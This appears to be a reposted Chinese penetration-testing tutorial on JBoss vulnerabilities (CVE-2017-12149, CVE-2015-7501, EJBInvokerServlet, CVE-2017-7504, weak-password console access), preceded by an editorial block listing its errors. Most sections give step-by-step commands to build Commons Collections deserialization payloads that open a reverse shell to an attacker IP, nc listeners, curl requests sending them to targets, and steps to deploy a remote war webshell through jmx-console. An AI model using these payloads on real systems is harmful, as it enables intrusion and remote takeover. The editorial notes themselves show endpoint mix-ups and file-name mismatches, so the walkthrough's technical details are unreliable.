# 中间件常见漏洞之 JBOSS

> 版本字段校订（2026-10-04）：代码、命令、路径、产品名或章节标记误入版本字段的值已逐字保存到对应 `previous_*` 字段；当前版本字段只记正文明确的来源范围，无范围时记为 unknown。后文对此元数据误填的旧说明描述校订前状态，其余实验条件与待核项仍按原文保留。

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 证据范围：主要复制步骤存在跨漏洞端点错误，是多实体文档而非可直接按标题编号执行的教程。

### 本次正文校订

- 按实际内容修正 6 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 7501及7504发送payload都误用/invoker/readonly，实际对应12149，不能证明宣称两个CVE
- 12149请求文件名.serx与生成.ser不符
- EJBInvokerServlet被错说为RemoteMBeanInvocation，和前篇说明web-console/Invoker混淆
- 弹下载/返回HTTP-IL横幅即证明可反序列化利用是错误判据，只能证明端点可达
- Admin Console章节实际全演示JMX Console，且全版本弱口令过度泛化
- 7501厂商暂未修复为无日期历史断言，补丁/CC版本未核；security-constraint修复缺完整XML及方法覆盖
- 大段早期JBoss2.4架构与广告，缺一致实验版本/JRE及清理

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。
- 含落盘脚本或账户创建：会留下持久状态。记录本次生成的路径或账户，测试后清理这些对象并撤销关联令牌；不要删除既有业务对象。
- 涉及 LDAP/RMI/DNS/HTTP 外带：回连只证明相应网络交互，不能单独证明命令执行；使用自控接收端，避免把日志、凭据或真实业务数据发送给第三方。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/EZDVg8fyQ-gpumqHcv_dow)

现在只对常读和星标的公众号才展示大图推送，建议大家能把**渗透安全团队** “**设为星标**”，否则可能就看不到了啦！
------------------------------------------------------------

**免责声明**

由于传播、利用本公众号狐狸说安全所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，公众号狐狸说安全及作者不为**此**承担任何责任，一旦造成后果请自行承担！如有侵权烦请告知，我们会立即删除并致歉，谢谢！

### **0x01 Jboss 简介**

JBoss 是一个开源的符合 J2EE 规范的应用服务器，作为 J2EE 规范的补充，Jboss 中引入了 AOP 框架，为普通 Java 类提供了 J2EE 服务，而无需遵循 EJB 规范。Jboss 通过类载入时，使用 Javassist 对字节码操作实现动态 AOP 框架，Javassist 是一个开源的编辑字节码的类库。

Jboss 中参考，切入点与方面也由普通 Java 对象实现，并使用 XML 文件配置。Jboss 的连接点模型与 AspectJ 略有不同，提供了一系列预定义的切入点，包括类匹配，方法调用，构造器调用，域访问，特定的调用与被调用关系。通过这些切入点的逻辑运算，可以实现更为复杂的切入点。方面为 Java 类，参考是其中的一个方法，方面中不含切入点，方面主要为各种拦截器（Interceptor），拦截器即为只含一个参考的方面，单一连接点上可由多个拦截器形成拦截器链，拦截器执行额外的操作。对方法的拦截由 Advisor 类管理，在连接点依次调用拦截器，并最终调用被逻辑的方法。而关于切入点，参考已及方面的信息由 AspectManager 管理。此外，Jboss 提供对元数据的支持，用于为类，方法，构造器以及域添加额外的属性，并可在运行期访问。

为实现拦截，Jboss 需要修改类的字节码，大致过程如下。

XML 配置文件中关于切入点，拦截器，元数据以及混合类的信息在应用程序部署时被读入、解析，并生成相应的对象，这些信息与实例化的对象由 AspectManager 管理。在需要混入方面代码的类载入时，AspectManager 将创建 Advisor 类，将方面相关信息传递给它，并对类的字节码进行修改，之后将修改过的字节码交给类载入器完成类的装载。字节码的修改主要是对被载入的类添加一系列方法用于代理那些匹配连接点的方法调用，构造器调用，域访问以及方法导入，转为对 Advisor 类相应方法的调用。类中各方法将重命名，保留原方法体，并添加一个与原方法同名的方法，在这个方法中调用那些代理方法，用来将调用代理给 Advisor 类，或调用重命名的原方法。对于域访问，分别添加两个方法，对应于读与写操作，将域访问代理至 Advisor 类，在访问这个域的类中，则需将对域的访问转换为对上述方法的调用。对于构造器调用，则添加一个方法，将调用代理至 Advisor 类，并对构造对象的类的构造代码作相应转换。对于导入，被导入的类中将添加一个混合类实现的引用，并添加混合类接口中的方法，将对混合类方法的调用代理至 Advisor 类，并最终调用混合类的实现。相关类载入后，初始化 Advisor 类，填入拦截器链，以完成整个处理过程。

JBOSS 应用服务器还具有许多优秀的特质:

1. 它将具有革命性的 JMX 微内核服务作为其总线结构；

2. 它本身就是面向服务的架构（Service-Oriented Architecture，SOA）；

3. 它还具有统一的类装载器，从而能够实现应用的热部署和热卸载能力。

因此，它是高度模块化的和松耦合的。JBoss 用户的积极反馈告诉我们，JBoss 应用服务器是健壮的、高质量的，而且还具有良好的性能。



**JBoss 的服务器架构概述**

JBoss 的构架和其他 J2EE 应用服务器的构架有着巨大的不同。JBoss 的模块架构是建立在 JMX 底层上的，下图展现了 JBoss 主要组件和 JMX 的联系。

JMX - 层次

JMX 是一个可复用框架，它为远程 (Remote) 和本地 (Local) 管理工具扩展了应用。它的架构是层式架构。他们是实现层 (instrumentation layer)、代理层(agent layer) 和发布层(distribution layer)。其中，发布层还在等待未来的标准化。简要的表述是，用户使用管理 Bean，MBean 来提供获得相应资源的实现方法。实现层实现相关的特性资源并将它发布于 JMX 相关应用中，它的代理层控制和发布相应的注册在 MBeanServer 代理上的管理资源。JBoss 主要模块

主要的 JBoss 模块是在 MeanServer 上的可管理 MBean。

1.JBoss EJB 容器是 JBoss 服务器的核心实现。它有两个特性，第一是在运行期产生 EJB 对象的 Stub 和 Skeleton 类，第二是支持热部署。

2.JBossNS 是 JBoss 命名服务用来定位对象和资源。它实现了 JNDI J2EE 规范.

3.JBossTX 是由 JTA/JTS 支持的交易管理控制。

4. 部署服务支持 EJB(jar)、Web 应用文档 (war) 和企业级应用文档 (ears) 的部署。它会时刻关心 J2EE 应用的 URL 情况，一旦它们被改变或出现的时候将自动部署。

5.JBossMQ 使 Java 消息规范 (JMS) 的实现。

6.JBossSX 支持基于 JAAS 的或不支持 JAAS 机制的安全实现。

7.JBossCX 实现了部分 JCA 的功能。JCA 制订了 J2EE 应用组件如何访问基于连接的资源。

8.Web 服务器支持 Web 容器和 Servlet 引擎。JBoss 2.4.x 版本支持 Tomcat 4.0.1，Tomcat 3.23 和 Jetty 3.x 服务。

**JBoss 架构设计中的两个重要的特性**

第一是使用 JMX 作为一个软件总线垂直的贯穿其所有的服务，通过将新的服务组件遵循 JMX 规范挂接上 "总线"，使得系统扩展现有的服务变得容易。可插入式框架被广泛的运用于服务的实现。开发者可以选择他们需要的服务并编写他们所需要的相应实现，通过定义在部署描述文件中，让 JBoss 服务器知道。

第二是容器被设计成为动态代理机制，这样使容器的实现变得简单和使开发者避免费劲的将 jar 文件进行预编译以获得 stub 和 skeleton 代码。但是这样做潜在的问题是性能和可测性，因为我们知道 java 反射机制会引起性能的损失。JBoss 中存在着相应的优化方案并且在将来的研究中我们会论述该优化方法在什么时候工作并且是如何工作的。

**jboss 一般有 2 种类型的的漏洞：**
========================

```
a.访问控制不严导致的漏洞
b.反序列化漏洞

```



**Jboss 管理控制台说明**  

jboss 4.x 及其之前的版本 console 管理路径为 /jmx-console/ 和 /web-console/

jmx-console 的配置文件为：

```
/opt/jboss/jboss4/server/default/deploy/jmx-console.war/WEB-INF/jboss-web.xml

```

web-console 的配置文件为：

```
/opt/jboss/jboss4/server/default/deploy/management/console-mgr.sar/web-console.war/WEB-INF/jboss-web.xml

```

一定要注意不同网站之间 jboss 的绝对路径一定是有区别的

**jboss 的控制台账号密码说明**

jmx-console 和 web-console 的账户密码相同密码文件保存在一下路径下：

```
/opt/jboss/jboss4/server/default/conf/props/jmx-console-users.properties

```



### **0x02 jboss 漏洞复现**

本文使用在线靶场复现，靶场地址如下：  

```
https://vulfocus.cn/

```

**1.jboss 代码执行 (CVE-2017-12149)**

**漏洞介绍**

影响范围

```
JBoss 5.x/6.x

```

**漏洞原理**

在 / invoker/readonly 路径下，攻击者可以构造序列化代码传入服务器进行反序列化, 由于没有对反序列化操作进行任何检测，导致攻击者可以执行任意代码

该漏洞位于 JBoss 的 HttpInvoker 组件中的 ReadOnlyAccessFilter 过滤器中，其 doFilter 方法在没有进行任何安全检查和限制的情况下尝试将来自客户端的序列化数据流进行反序列化，导致攻击者可以通过精心设计的序列化数据来执行任意代码

**漏洞复现**



访问 /invoker/readonly 如果返回 500，说明此页面就可能存在反序列化漏洞。

直接使用 jboss 反序列化_CVE-2017-12149 工具

工具地址：

```
https://github.com/yunxu1/jboss-_CVE-2017-12149

```



方法二：使用 JavaDeserH2HC 工具

下载地址：

```
http://scan.javasec.cn/java/JavaDeserH2HC.zip

```

1. 进入 JavaDeserH2HC 工作目录：  

2. 攻击机下载执行执行生成二进制 payload 文件：

```
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java

```

3. 修改接收 shell 的 IP 和端口：

```
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap x.x.x.x:7777

```



4.NC 开启监听：

```shell
nc -vv -l -p 7777

```



向被攻击服务器发送攻击 payload：

```shell
curl http://x.x.x.x:8080/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.serx

```



**成功反弹 shell**



**修复建议**  

1. 升级到 JBOSS7

2. 不需要 http-invoker.sar 组件的用户可直接删除此组件。

3. 添加如下代码至 http-invoker.sar 下 web.xml 的 security-constraint 标签中：/* 用于对 http invoker 组件进行访问控制。

**2.JBoss JMXInvokerServlet 反序列化漏洞（CVE-2015-7501）**

**漏洞介绍**  

影响版本

```
Red Hat JBoss A-MQ 6.x版本；
BPM Suite (BPMS) 6.x版本；
BRMS 6.x版本和5.x版本；
Data Grid (JDG) 6.x版本；
Data Virtualization (JDV) 6.x版本和5.x版本；
Enterprise Application Platform 6.x版本，5.x版本和4.3.x版本；
Fuse 6.x版本；
Fuse Service Works (FSW) 6.x版本；
Operations Network (JBoss ON) 3.x版本；
Portal 6.x版本；
SOA Platform (SOA-P) 5.x版本；
Web Server (JWS) 3.x版本；
Red Hat OpenShift/xPAAS 3.x版本；
Red Hat Subscription Asset Manager 1.3版本。

```

**漏洞原理**

JBoss 在 /invoker/JMXInvokerServlet 请求中读取了用户传入的对象，然后我们可以利用 Apache Commons Collections 中的 Gadget 执行任意代码。

**漏洞复现**
--------



访问网站页面

页面如果弹出下载 JMXInvokerServlet 文件的页面, 则证明存在漏洞





下载反序列化工具:

```
https://github.com/ianxtianxt/CVE-2015-7501/

```

下载后解压完，进入到工具目录 , 执行命令:

```
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java

```

继续执行命令（IP 是攻击机, PORT 是要监听的端口):

```
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap IP:PORT

```

新界面开启 nc 监听准备接收反弹过来的 shell

```shell
nc -lvnp 监听的端口

```

这个时候在工具的目录下生成了一个 ReverseShellCommonsCollectionsHashMap.ser 文件，然后我们 curl 就能反弹 shell 了

```shell
curl http://目标ip:port/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser

```



**修复建议**

1. 目前厂商暂未发布修复措施解决此安全问题，建议使用此软件的用户随时关注厂商主页或参考网址以获取解决办法：

Red Hat - We make open source technologies for the enterprise

2. 不需要 http-invoker.sar 组件的用户可直接删除此组件。

路径为：jboss-6.1.0.Final\server\default\deploy\http-invoker.sar, 删除后访问 404

3. 添加访问控制代码至 http-invoker.sar 下 web.xml 的 security-constraint 标签中，对 http invoker 组件进行访问控制

**3.JBoss EJBInvokerServlet 反序列化漏洞**

**漏洞概述**

影响版本

```
主要集中在 jboss 6.x 版本上:
 Apache Group Commons Collections 4.0 
 Apache Group Commons Collections 3.2.1 
 Apache Group Commons Collections

```

**漏洞原理**  

此漏洞和 CVE-2015-7501 漏洞原理相同，两者的区别就在于 JMXInvokerServlet 利用的是 org.jboss.invocation.MarshalledValue 进行的反序列化操作，而 EJBInvokerServlet 利用的是 org.jboss.console.remote.RemoteMBeanInvocation 进行反序列化并上传构造的文件。

**漏洞复现**

跟 CVE-2015-7501 利⽤⽅法⼀样，只是路径不⼀样，这个漏洞利⽤路径是

```
/invoker/EJBInvokerServlet

```

在这里就不复现了，复现请参考 CVE-2015-7501

**修复建议**

1. 不需要 http-invoker.sar 组件的用户可直接删除此组件。路径为：jboss-6.1.0.Final\server\default\deploy\http-invoker.sar, 删除后访问 404

2. 添加如下代码至 http-invoker.sar 下 web.xml 的 security-constraint 标签中，对 http invoker 组件进行访问控制

**4.JBossMQJMS 反序列化漏洞（CVE-2017-7504****）**

**漏洞简介**  

影响版本

```
JBoss <=4.x

```

**漏洞原理**

JbossMQ 实现过程的 JMS over HTTP Invocation Layer 的 HTTPServerILServlet.java 文件存在反序列化漏洞，远程攻击者可借助特制的序列化数据利用该漏洞执行任意代码。

**漏洞复现**



访问

```
/jbossmq-httpil/HTTPServerILServlet

```

返回 This is the JBossMQ HTTP-IL，说明存在反序列化漏洞。


利用工具: JavaDeserH2HC

```
https://github.com/joaomatosf/JavaDeserH2HC

```

也可以利用上面介绍的那款反序列化工具

也是推荐在 linux 操作系统使用该工具

我们选择一个 Gadget：ReverseShellCommonsCollectionsHashMap，编译并生成序列化数据：

生成 ReverseShellCommonsCollectionsHashMap.class

```
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java

```


生成 ReverseShellCommonsCollectionsHashMap.ser(ip 是要攻击机的 ip，port 是要监听的端口）

```
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap ip:port

```



新开一个窗口用 nc 监听刚刚的端口

```shell
nc -lnvp port

```



这个时候在这个目录下生成了一个 ReverseShellCommonsCollectionsHashMap.ser 文件，然后我们 curl 就能反弹 shell 了

```shell
curl http://目标ip:port/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser

```

成功反弹



**修复建议**

升级至不受影响的版本

**5.JBoss Administration Console 弱口令 &&getshell**

**漏洞概述**

影响版本

```
全版本

```

**漏洞原理**

Administration Console 管理页面存在弱口令，admin:admin，登陆后台上传包含 shell 的 war 包并部署，再用后门工具连接即可

**漏洞复现**

直接访问

```
ip/jmx-console/HtmlAdaptor?action=inspectMBean&name=jboss.deployment%3Atype%3DDeploymentScanner%2Cflavor%3DURL

```

1.void addurl 中的 Param Value 中插入公网部署好的 war 包

2. 返回第二步，并点击 apply changes

3. 查看 jmx-console 目录下如果有部署 war 包的名字证明上传成功

4.ip/war 包名字 / 脚本名字 连上马子



boss/jmx console 登录进行抓包发现也是和 tomcat 一样 base64 编码，我们可以对这个编码暴力破解从而达到弱口令进入控制台

tomcat 弱口令部署 war 包



其中 JMX Console 和 JBoss Web Consoles 是相同账号密码，但是 JMX Console 功能点会偏多

如果得到弱口令进入 jmx console 后点击 jboss.deployment 以下链接



然后在 void addURL() 选项来远程加载 war 包来部署。

